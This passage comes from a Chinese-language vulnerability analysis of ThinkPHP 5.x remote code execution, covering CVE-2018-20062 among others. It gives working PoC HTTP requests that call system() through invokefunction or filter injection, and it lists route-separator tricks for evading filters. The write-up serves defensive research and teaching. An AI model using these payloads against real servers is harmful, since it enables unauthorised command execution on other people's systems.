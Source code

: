- 方式二的PoC模板

```
_method=__construct大小写[&method=any&server.*=any]&[get|route][\[\]]=指定命令&filter[\[\]]=指定代码执行函数
```

- 方式三的PoC模板（针对think-captcha库）

```
POST /index.php?s=captcha HTTP 1.1/
Host: x.x.x.x

_method=__construct大小写&method=get[&server.*=any]&[get|route][\[\]]=指定命令&filter[\[\]]=指定代码执行函数
```

由于注册的路由规则`'captcha/[:id]'`等同于`captcha/captcha函数/函数参数`，id这里原指的是传入的参数。两者之间前者响应500，后者响应200，但是命令都会执行成功，具体差异跟进路由处理的代码即可，不做说明了。

### 3. 【CVE-2018-20062】路由未过滤处理控制器+App::invokemethod反射可调用任意类

#### - 利用条件

1. 版本范围：ThinkPHP [5.0.0, 5.0.23], ThinkPHP [5.1.0, 5.1.30]
2. 默认开启url_route_on配置（混合模式）

#### - 漏洞原理和分析

> 代码展示版本tp5.1.19

![img](https://cdn.nlark.com/yuque/0/2022/png/21861937/1651051956761-0d7d182a-0762-437e-b23b-bcb3980672e0.png)

tp5.*混合模式下路由解析的时候通过'/|'符号对路由进行拆分，划分$module、$controller和$action，其中$controller和$action没有限制调用域，从而可以跨作用域调用任意指定的类和方法。App::exec()或Module::exec()通过反射`Reflect::invokeArgs`完成调用。

详细分析参考https://xz.aliyun.com/t/3570#toc-4

#### -漏洞复现

常见的一个PoC长成这样：

```http
GET /public/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id HTTP/1.1
Host: x.x.x.x
```

从代码层次上的绕过还有哪些？

- **绕过点1：路由处理过程中路由的分隔符**

路由分隔符'/'可被替换为'|'，Route::check调用$request->method有将'|'还原'/'。

`index|\think\app|invokefunction`

'/'和'|'还可以混合使用：

`index|\think\app/invokefunction`

- **绕过点2：结合index处理**
